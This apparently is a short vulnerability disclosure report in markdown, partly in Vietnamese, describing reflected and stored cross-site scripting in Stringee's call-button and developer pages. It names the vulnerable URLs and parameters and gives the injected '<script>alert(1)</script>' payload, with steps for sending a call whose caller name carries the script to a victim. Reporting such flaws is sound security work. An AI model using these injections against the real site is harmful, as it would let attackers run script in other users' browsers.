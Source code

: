 # Reflected XSS + Stored XSS




## Reflected XSS 

Endpoint : https://static.stringee.com/button-call/lastest/videocall/popup_voicecall.html?from_number=[xss]

Inject : ```<script>alert(1)</script>```

![](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/Stringee/image/Reflected_XSS.jpg)


## Stored XSS

Url : https://developer.stringee.com/report/call

Inject : ```<script>alert(1)</script>```

Tạo một access_token từ url để thực hiện cuộc gọi 

thay đổi tên người cuộc gọi = `inject `

==> người nhận(victim) bị xss

Endpoint : 

```
https://static.stringee.com/button-call/lastest/videocall/popup_voicecall.html
?from_number=[xss]
&to_number=84936423493
&call_type=free-voice-call
&access_token=[secret]
&hotline=[victim]

```

Inject : ```<script>alert(1)</script>```

![](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/Stringee/image/Stored_XSS.png?raw=true)
